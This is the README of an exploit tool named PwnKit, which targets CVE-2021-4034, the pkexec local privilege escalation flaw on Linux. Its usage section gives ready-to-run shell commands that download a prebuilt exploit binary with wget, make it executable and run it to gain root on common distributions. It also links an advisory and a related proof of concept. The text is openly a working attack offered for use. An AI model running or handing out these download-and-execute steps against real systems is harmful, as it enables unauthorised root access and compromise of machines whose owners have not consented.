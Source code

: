 # PwnKit

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
chmod +x ./PwnKit
./PwnKit
```

## Example

![](./imgs/example.png)

## Technical Details

- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

## References

- https://github.com/arthepsy/CVE-2021-4034/